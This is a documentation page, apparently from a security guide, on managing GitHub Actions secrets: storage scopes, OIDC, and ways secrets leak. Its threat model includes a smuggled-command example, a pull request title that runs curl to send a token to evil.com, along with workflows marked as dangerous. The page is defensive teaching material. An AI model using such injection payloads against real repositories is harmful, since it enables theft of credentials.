

# Secret Management Overview

Secrets in GitHub Actions are the keys to your kingdom. Exposed credentials mean compromised infrastructure. Manage them like your business depends on it. Because it does.

!!! danger "The Risk"

    Secrets in GitHub Actions grant access to production systems, cloud accounts, package registries, and third-party services. A single leaked credential can mean full infrastructure compromise, data exfiltration, or supply chain attacks against your users.

## What are GitHub Actions Secrets?

GitHub Actions secrets are encrypted environment variables stored at repository, organization, or environment level. They inject sensitive values into workflows without exposing them in logs or code.

**How Secrets Work**:

1. Store secret via Settings → Secrets and variables → Actions
2. Reference in workflow via `${{ secrets.SECRET_NAME }}`
3. GitHub injects value at runtime as environment variable
4. Secret value masked in logs (best effort)
5. Secret expires when workflow job completes

**Key Characteristics**:

- **Encrypted at rest**: Stored using GitHub's encryption keys
- **Masked in logs**: GitHub attempts to redact secret values from output
- **Immutable once set**: Cannot view secret value after creation (only update)
- **Environment variables**: Available via `$SECRETS_NAME` syntax in shell
- **Scoped by hierarchy**: Repo, org, or environment level access control

## Secret Storage Hierarchy

GitHub offers three storage levels for secrets. Understanding scope is critical for least-privilege access.

### Repository Secrets

**Scope**: Single repository only

**Access**: All workflows in that repository

**Use Cases**:

- Repository-specific API tokens
- Service credentials unique to one project
- Test environment credentials
- Integration tokens for single repo

**Configuration**: `Settings → Secrets and variables → Actions → Repository secrets`

**Example**:

```yaml
name: Deploy
on: [push]

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      # Repository secret - available to this repo only
      - run: echo "${{ secrets.DEPLOY_KEY }}" | base64 -d > deploy.key
```

**Risk**: Accessible to all workflows in repository. Compromised workflow file can exfiltrate.

### Organization Secrets

**Scope**: Multiple repositories within organization

**Access**: Selected repositories or all repositories in org

**Use Cases**:

- Shared cloud credentials across team repos
- Organization-wide package registry tokens
- Common API keys for internal services
- CI/CD credentials for platform team

**Configuration**: `Organization Settings → Secrets and variables → Actions → Organization secrets`

**Visibility Policy**:

- **All repositories**: Every repo in org can access (high risk)
- **Private repositories**: Only private repos (better)
- **Selected repositories**: Explicit allowlist (best)

**Example**:

```yaml
name: Publish
on: [release]

jobs:
  publish:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      # Organization secret - shared across repos
      - run: npm publish --registry=https://npm.example.com
        env:
          NPM_TOKEN: ${{ secrets.ORG_NPM_TOKEN }}
```

**Risk**: Broader attack surface. Compromise of any selected repository exposes secret to attacker.

### Environment Secrets

**Scope**: Specific deployment environment (production, staging, dev)

**Access**: Only workflows that target that environment

**Use Cases**:

- Production deployment credentials
- Environment-specific cloud accounts
- Database connection strings per environment
- Credentials requiring approval gates

**Configuration**: `Settings → Environments → Environment name → Environment secrets`

**Protection Rules**:

- **Required reviewers**: Manual approval before workflow can access secrets
- **Wait timer**: Delay before deployment proceeds
- **Deployment branches**: Restrict which branches can deploy
- **Custom protection rules**: Additional gates via GitHub Apps

**Example**:

```yaml
name: Deploy Production
on:
  workflow_dispatch:

jobs:
  deploy:
    runs-on: ubuntu-latest
    environment: production  # Triggers environment protection
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1

      # Environment secret - production only, requires approval
      - run: ./deploy.sh
        env:
          PROD_API_KEY: ${{ secrets.PROD_API_KEY }}
```

**Risk**: Lowest risk with proper protection rules. Approval gates prevent unauthorized access.

## Secret Types and Use Cases

### Encrypted Secrets

**Type**: Sensitive values encrypted by GitHub

**Use Cases**: Passwords, API keys, tokens, certificates, private keys

**Example**:

```yaml
env:
  DATABASE_PASSWORD: ${{ secrets.DB_PASSWORD }}
  API_TOKEN: ${{ secrets.EXTERNAL_API_TOKEN }}
```

**Characteristics**:

- Always encrypted at rest
- Masked in logs (best effort)
- Cannot be read after creation
- Max 64 KB per secret

### Configuration Variables

**Type**: Non-sensitive configuration values stored as plaintext

**Use Cases**: Environment names, URLs, feature flags, non-secret configuration

**Example**:

```yaml
env:
  API_ENDPOINT: ${{ vars.API_URL }}
  ENVIRONMENT: ${{ vars.DEPLOY_ENV }}
```

**Characteristics**:

- Stored as plaintext
- Visible in UI after creation
- Not masked in logs
- Use for non-sensitive data only

**Security Note**: Variables are NOT secrets. Never store credentials as variables.

### OIDC Tokens (Secretless Authentication)

**Type**: Short-lived JSON Web Tokens for cloud federation

**Use Cases**: AWS, GCP, Azure authentication without long-lived credentials

**Example**:

```yaml
permissions:
  id-token: write  # Request OIDC token
  contents: read

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      # google-github-actions/auth v2.1.0
      - uses: google-github-actions/auth@f112390a2df9932162083945e46d439060d66ec2
        with:
          workload_identity_provider: 'projects/123/locations/global/workloadIdentityPools/github/providers/github-provider'
          service_account: 'deploy@project.iam.gserviceaccount.com'

      - run: gcloud compute instances list
```

**Characteristics**:

- No stored secrets
- Tokens expire in minutes
- Tied to workflow context (repo, branch, commit)
- Cloud provider validates claims

**Benefit**: Eliminates long-lived credentials. Reduces secret sprawl and rotation burden.

See [OIDC Federation Patterns](oidc.md) for complete implementation guide.

## Secret Exposure Threat Model

Understanding how secrets leak is the first step to preventing exposure.

### Exposure Vector 1: Workflow Logs

**Mechanism**: Secret accidentally printed to stdout/stderr

**Example**:

```yaml
# DANGEROUS - Exposes secret in logs
- run: echo "Deploying with key ${{ secrets.DEPLOY_KEY }}"
```

**Result**: Secret visible in workflow logs despite masking (masking is best-effort, not guaranteed).

**Prevention**: Never interpolate secrets into commands that may log them. Use environment variables instead.

```yaml
# Safe - secret passed via environment, not command line
- run: ./deploy.sh
  env:
    DEPLOY_KEY: ${{ secrets.DEPLOY_KEY }}
```

### Exposure Vector 2: Pull Request Workflows

**Mechanism**: Malicious PR injects code that exfiltrates secrets

**Example**:

```yaml
# DANGEROUS - PR from fork can inject code
name: CI
on: [pull_request_target]  # Runs with repo secrets even for forks

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1
        with:
          ref: ${{ github.event.pull_request.head.sha }}  # Checks out PR code

      # Attacker controls test.sh via PR
      - run: ./test.sh
        env:
          API_KEY: ${{ secrets.API_KEY }}  # Exposed to attacker
```

**Attack**: Attacker submits PR with malicious `test.sh` that sends `$API_KEY` to attacker server.

**Prevention**: Use `pull_request` (not `pull_request_target`) for untrusted code. Isolate secret access.

```yaml
# Safe - fork workflows don't get secrets
name: CI
on: [pull_request]  # Fork workflows run without secrets

permissions:
  contents: read

jobs:
  test:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@b4ffde65f46336ab88eb53be808477a3936bae11  # v4.1.1
      - run: npm test  # No secrets available
```

See [Workflow Triggers Security](../workflows/triggers.md) for fork workflow patterns.

### Exposure Vector 3: Compromised Action

**Mechanism**: Third-party action exfiltrates secrets

**Example**:

```yaml
# DANGEROUS - unknown action with secret access
- uses: sketchy-org/deploy-tool@v1
  env:
    AWS_ACCESS_KEY_ID: ${{ secrets.AWS_KEY }}
    AWS_SECRET_ACCESS_KEY: ${{ secrets.AWS_SECRET }}
```

**Attack**: Malicious or compromised action sends secrets to attacker-controlled server.

**Prevention**: Only use trusted actions, SHA pin everything, minimize secret exposure.

```yaml
# Better - OIDC eliminates stored secrets
permissions:
  id-token: write

- uses: aws-actions/configure-aws-credentials@5fd3084fc36e372ff1fff382a39b10d03659f355  # v2.2.0
  with:
    role-to-assume: arn:aws:iam::123456789012:role/GitHubActionsRole
    aws-region: us-east-1
```

See [Third-Party Action Risk Assessment](../third-party-actions/index.md) for action evaluation framework.

### Exposure Vector 4: Script Injection

**Mechanism**: Untrusted input injected into shell command

**Example**:

```yaml
# DANGEROUS - PR title controlled by attacker
- run: echo "PR: ${{ github.event.pull_request.title }}"
  env:
    TOKEN: ${{ secrets.GITHUB_TOKEN }}
```

**Attack**: Attacker creates PR with title: `"; curl evil.com?token=$TOKEN #"`

**Result**: Command becomes: `echo "PR: "; curl evil.com?token=$TOKEN #"`

**Prevention**: Never interpolate untrusted input into shell. Use environment variables.

```yaml
# Safe - input passed via environment variable
- run: echo "PR title: $PR_TITLE"
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
    TOKEN: ${{ secrets.GITHUB_TOKEN }}
```

### Exposure Vector 5: Log Aggregation

**Mechanism**: Secrets sent to third-party log aggregation service

**Example**:

```yaml
# Risk - logs forwarded to external service
- run: deploy.sh 2>&1 | tee /dev/stderr
  env:
    SECRET_KEY: ${{ secrets.SECRET_KEY }}
```

**Risk**: If workflow logs forwarded to Datadog, Splunk, or similar, secrets may be stored in third-party systems.

**Prevention**: Audit log forwarding. Ensure secrets masked before external transmission.

## Secret Exposure Attack Surface



## Secret Storage Comparison

| Storage Type | Scope | Access Control | Protection Features | Use Case |
| ------------ | ----- | -------------- | ------------------- | -------- |
| **Repository Secret** | Single repo | All workflows in repo | None | Repo-specific credentials |
| **Organization Secret** | Multiple repos | All/private/selected repos | Repository selection | Shared team credentials |
| **Environment Secret** | Environment | Workflows targeting environment | Required reviewers, wait timer, branch restrictions | Production credentials |
| **OIDC Token** | Workflow runtime | `id-token: write` permission | Cloud provider claim validation, short-lived | Cloud authentication |

## Security Best Practices

**Use environment secrets for production**: Environment protection rules add approval gates and audit trail.

**Prefer OIDC over long-lived credentials**: Eliminates stored secrets, reduces rotation burden, limits blast radius.

**Minimize secret exposure**: Only expose secrets to jobs that need them. Use job-level environment variables.

```yaml
permissions:
  contents: read

jobs:
  deploy:
    environment: production
    steps:
      - run: ./deploy.sh
        env:
          PROD_KEY: ${{ secrets.PROD_KEY }}  # Scoped to this step
```

**Never log secrets**: Avoid echo, printf, or debug output with secret values. Masking is best-effort, not guaranteed.

**Audit secret access**: Use GitHub audit log to track secret changes and access patterns.

**Rotate secrets regularly**: Implement automated rotation for long-lived credentials.

See [Secret Rotation Patterns](rotation.md) for automation workflows.

**Use secret scanning**: Enable push protection to prevent accidental commits.

See [Secret Scanning Integration](scanning.md) for detection and response.

**Restrict pull_request_target**: Only use with extreme caution. Prefer `pull_request` for untrusted code.

**Review workflow changes carefully**: Changes to `.github/workflows/` can exfiltrate secrets. Require security review.

## Next Steps

Ready to implement secure secret management? Continue with:

- **[OIDC Federation Patterns](oidc.md)**: Eliminate stored credentials with secretless cloud authentication (AWS, GCP, Azure)
- **[Secret Rotation Automation](rotation.md)**: Automated rotation workflows, notification patterns, zero-downtime strategies
- **[Secret Scanning Integration](scanning.md)**: Push protection setup, custom patterns, incident response playbook

## Quick Reference

### Secret Type Selection

| Requirement | Use This | Notes |
| ----------- | -------- | ----- |
| **Single repo credentials** | Repository secret | Isolated to one project |
| **Team-wide credentials** | Organization secret (selected repos) | Explicit allowlist required |
| **Production credentials** | Environment secret | Add required reviewers |
| **Cloud authentication** | OIDC token | No stored secrets, preferred |
| **Non-sensitive config** | Configuration variable | Plaintext, not masked |

### Exposure Prevention

| Risk | Mitigation | Effort |
| ---- | ---------- | ------ |
| **Workflow logs** | Never interpolate secrets in commands | Low |
| **Fork PRs** | Use `pull_request`, not `pull_request_target` | Low |
| **Third-party actions** | SHA pin, audit source, use OIDC | Medium |
| **Script injection** | Environment variables, not interpolation | Low |
| **Secret sprawl** | OIDC federation, automated rotation | High |

---

!!! tip "OIDC First, Secrets Only When Necessary"

    Default to OIDC federation for cloud authentication. Stored secrets should be the exception, not the default. Every long-lived credential is a liability waiting to leak.
